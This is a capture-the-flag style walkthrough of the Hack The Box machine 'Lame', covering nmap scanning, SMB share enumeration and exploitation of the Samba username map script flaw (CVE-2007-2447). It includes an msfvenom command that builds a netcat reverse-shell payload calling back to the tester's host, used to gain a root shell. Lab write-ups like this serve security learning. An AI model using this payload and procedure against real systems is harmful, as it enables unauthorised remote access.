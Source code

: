 # **Lame - Manual Exploit**

***
![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/f04b0bc2-ab55-4653-97af-c0a4e3fe1c00)
## **Difficulty = Easy**

***

Running our nmap scan we have

```bash
# Nmap 7.94 scan initiated Sat Jul 29 07:48:57 2023 as: nmap -p21,22,139,445 -sCV -T4 -oN nmap.txt -Pn 10.10.10.3
Nmap scan report for 10.10.10.3
Host is up (0.41s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-07-29T07:49:32-04:00
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h00m11s, deviation: 2h49m47s, median: 7s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul 29 07:50:03 2023 -- 1 IP address (1 host up) scanned in 65.54 seconds
```


We have anonymous access to `FTP` but can't put files inside it, also there are no files inside it



![](https://i.imgur.com/bSaU84S.png)



Using `smbmap` to enumerate shares we have `READ, WRITE` permissions on only one share (**tmp**)


![](https://i.imgur.com/VSomNYl.png)



Connecting to the share with `smbclient` we have

![](https://i.imgur.com/D6kxUwF.png)


We can go ahead and download all of this files


![](https://i.imgur.com/bWH5nOp.png)



Only 2 where permitted for us to download

![](https://i.imgur.com/2Inhe8V.png)



Nothing still seems interesting in this files

![](https://i.imgur.com/TWwgsRu.png)


Checking the smb version, i found out it is vulnerable to **Username' map script' Command Execution** (CVE-2007-2447), we can go ahead and download the exploit from [here](https://gist.github.com/joenorton8014/19aaa00e0088738fc429cff2669b9851)

- Make sure `pysmb` is installed

```bash
sudo pip2 install pysmb
```

- Then run this command replacing `LHOST` with your `tun0` IP address and copy the shellcode

```bash
msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.14.90 LPORT=1337 -f python
```


![](https://i.imgur.com/y0V3ogk.png)


- Replace it with the default shellcode in the script


![](https://i.imgur.com/53U01Ng.png)

Run the script with `python2` and get a reverse shell

![](https://i.imgur.com/sVyEjed.png)


Hell yeah, we got reverse shell as user **root**


![](https://i.imgur.com/cC4hfAQ.png)


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>



